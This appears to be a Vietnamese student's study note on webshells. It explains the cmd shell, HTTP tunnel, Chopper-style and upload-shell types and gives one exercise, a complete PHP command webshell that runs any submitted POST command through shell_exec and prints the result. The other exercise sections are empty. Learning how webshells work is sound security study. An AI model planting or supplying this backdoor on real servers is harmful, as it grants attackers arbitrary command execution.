 # Lý thuyết

1. Webshell

- Webshell là một loại phần mềm độc hại được sử dụng để kiểm soát máy tính nạn nhân qua các dòng lệnh, được viết bằng các ngôn ngữ như PHP, ASP, JSP, Perl, Python, và Ruby. Webshell cho phép kẻ tấn công thực hiện một số hành động như thêm, xóa, sửa đổi tệp, thực thi mã độc hại, thu thập thông tin nạn nhân và có thể kiểm soát máy nạn nhân.

- Khi máy chủ đã bị nhiễm webshell, kẻ tấn công sẽ truy cập vào máy nạn nhân từ xa qua trình duyệt web hoặc các công cụ quản lý tệp.

2. Các loại webshell

2.1. Cmd shell

- Cmd shell là một loại webshell có khả năng thực thi các dòng lệnh thông qua giao diện dòng lệnh của hệ điều hành(thường dùng hàm shell_exec).

2.2. Http tunnel

- HTTP Tunnel là một loại webshell đặc biệt sử dụng giao thức HTTP để truyền tải các lệnh từ kẻ tấn công đến máy chủ và nhận kết quả trả về thông qua các yêu cầu HTTP. Đây là một loại webshell có khả năng vượt qua các giới hạn về tường lửa hoặc các cơ chế an ninh mạng chặn các kết nối bất thường.

2.3. Chooper

- Chooper cho phép tấn công, thực hiện các hoạt động độc hại và kiểm soát từ xa các hệ thống mà đã được xâm nhập. Chooper có kích thước nhỏ nên khó phát hiện.

2.4. Upload shell

- Upload shell là một kỹ thuật tấn công trong đó kẻ tấn công tải lên một webshell (một đoạn mã độc) lên máy chủ mục tiêu thông qua tính năng tải file của một ứng dụng web. Khi webshell được tải lên thành công và thực thi, nó cho phép kẻ tấn công điều khiển máy chủ từ xa, thực hiện các lệnh hệ thống, truy cập file, hoặc cài đặt phần mềm độc hại.

# Bài tập

1. Cmd shell

- Code

```
<?php
if (isset($_POST['cmd'])) {
    $command = $_POST['cmd'];
    $output = shell_exec($command);
    echo "<pre>$output</pre>";
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>PHP CmdShell</title>
</head>
<body>
    <form method="POST">
        <label for="cmd">Nhập lệnh shell:</label><br>
        <input type="text" name="cmd" id="cmd" required><br>
        <input type="submit" value="Thực thi">
    </form>
</body>
</html>

```

- Demo:

<img src = ''>

2. Http tunnel

- Code:

- Demo:

3. Chooper

- Code:

- Demo:

4. Upload shell

- Code:

- Demo:
